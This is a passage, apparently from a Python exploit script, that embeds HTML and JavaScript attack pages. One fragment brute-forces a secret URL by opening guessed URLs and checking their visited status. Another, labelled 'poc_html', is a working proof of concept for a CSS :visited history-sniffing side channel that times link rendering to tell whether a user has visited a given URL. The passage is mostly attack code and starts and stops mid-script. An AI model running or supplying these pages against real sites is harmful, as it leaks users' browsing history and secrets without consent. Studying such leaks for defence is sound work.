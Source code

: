 ```python
    async function exploit(current_guess) {
        let w = open(`${base_url}${guess}${current_guess}`, 'guess');
        await new Promise((resolve) => setTimeout(resolve, 1000));
        w.close();
        isVisited(`${base_url}${guess}${current_guess}`);
    }
    exploit(current_guess);
</script>
</body>
</html>
'''

poc_html = '''
<!doctype html>
<html lang="en">
<head>
    <meta charset="utf-8"/>
    <style type="text/css">
        #target {
            color: white;
            background-color: white;
            outline-color: white;
        }
        #target:visited {
            color: #feffff;
            background-color: #fffeff;
            outline-color: #fffffe;
        }
    </style>
</head>
<body>
    <div id="entryDisplay">
        Enter a URL to test for visited status:
        <input id="urlInput" type="text" size="60" value="{{ url }}" autofocus/>
        <button id="testButton">Test</button>
    </div>
    <script type="text/javascript">
        (function () {
            var entryDisplay = document.getElementById('entryDisplay');
            var urlInput = document.getElementById('urlInput');
            var testButton = document.getElementById('testButton');
            
            var basisUrl;
            var controlUrl;
            var experimentUrl;
            
            var targetLink;
            var controlTickCount;

            function generateUnvisitedUrl () {
                return 'https://' + Math.random() + '/' + Date.now();
            }
            
            testButton.addEventListener('click', function () {
                basisUrl = generateUnvisitedUrl();
                controlUrl = generateUnvisitedUrl();
                experimentUrl = urlInput.value;
                console.log({ experimentUrl })
                entryDisplay.remove();
                
                document.body.style.overflow = 'hidden';
                
                targetLink = document.createElement('a');
```